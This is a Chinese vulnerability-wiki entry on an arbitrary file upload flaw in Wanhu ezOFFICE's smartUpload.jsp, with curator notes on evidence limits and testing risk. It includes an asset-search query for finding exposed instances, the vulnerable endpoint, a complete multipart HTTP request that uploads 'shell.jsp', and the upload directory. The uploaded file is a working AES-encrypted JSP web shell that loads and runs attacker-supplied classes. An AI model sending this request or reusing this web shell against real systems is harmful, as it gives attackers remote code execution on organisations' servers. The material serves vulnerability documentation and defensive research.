




# 万户ezOFFICE smartUpload.jsp任意文件上传

## 条目说明

- 对象与具体问题：万户ezOFFICE；smartUpload.jsp任意文件上传
- 版本、配置及部署条件：未给版本；用户可控fileType参数含jsp
- 认证与权限前提：请求含JSESSIONID，权限不明确
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 需说明是无过滤还是用户控制允许扩展名，当前理由过粗
- 已列上传接口/完整multipart/目录；返回文件名只在截图
- 不能与OfficeServer或fileUpload单按类型合并

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

万户OA smartUpload.jsp文件存在文件上传接口，且没有对文件类型进行过滤,导致任意文件上传漏洞

### 漏洞影响

```
万户OA
```

### 网络测绘

```
app="万户网络-ezOFFICE"
```

### 漏洞复现

产品页面



文件上传接口

```
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&
```



可直接上传恶意jsp文件

```http
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=P*************************************************************9
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```

> 请求长度说明：原资料 Content-Length 为 938；静态长度已移除，应由客户端根据最终请求体的字节数生成。



通过抓包可查看上传的文件名，上传的目录为 `/defaultroot/upload/information/`



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
